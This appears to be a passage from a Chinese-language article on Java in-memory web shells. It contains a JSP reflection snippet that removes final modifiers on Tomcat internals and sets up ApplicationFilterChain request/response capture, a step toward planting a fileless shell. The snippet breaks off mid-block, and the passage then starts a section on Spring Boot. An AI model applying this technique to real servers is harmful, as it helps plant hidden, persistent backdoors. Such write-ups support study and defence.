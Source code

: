 我们需要先去掉字段的final修饰，将WRAP_SAME_OBJECT设置为true，并对lastServicedRequest、lastServicedResponse进行初始化

StaticReuqest-Filter.jsp：

```java
	//去掉final修饰
    void nofinal (Field targetField)throws Exception{
        Field modifiersField = Field.class.getDeclaredField("modifiers");
        modifiersField.setAccessible(true);
        modifiersField.setInt(targetField, targetField.getModifiers() & ~java.lang.reflect.Modifier.FINAL);
        targetField.setAccessible(true);
    }            
    Field WRAP_SAME_OBJECT = Class.forName("org.apache.catalina.core.ApplicationDispatcher")
        .getDeclaredField("WRAP_SAME_OBJECT");
    nofinal(WRAP_SAME_OBJECT);
    WRAP_SAME_OBJECT.setBoolean(null, true);

    Field lastServicedRequest = ApplicationFilterChain.class.getDeclaredField("lastServicedRequest");
    nofinal(lastServicedRequest);
    if (lastServicedRequest.get(null) == null) {
        lastServicedRequest.set(null, new ThreadLocal<>());
    }
    Field lastServicedResponse = ApplicationFilterChain.class.getDeclaredField("lastServicedResponse");
    nofinal(lastServicedResponse);
    if (lastServicedResponse.get(null) == null) {
        lastServicedResponse.set(null, new ThreadLocal<>());
    }
    ThreadLocal thredLocal = (ThreadLocal) lastServicedRequest.get(null);
    if (thredLocal != null && thredLocal.get() != null) {
        Object servletRequest = thredLocal.get();
```



## 4. Spring架构

spring boot web构建于tomcat之上，但做了一定程度的修改，启动流程没有使用Tomcat那一套，启动spring boot的方法为`org.springframework.boot.SpringApplication#run`

通过Console我们可以看到其MBean：

![SpringApplicationJconsole](Java应用内存马/SpringApplicationJconsole.png)
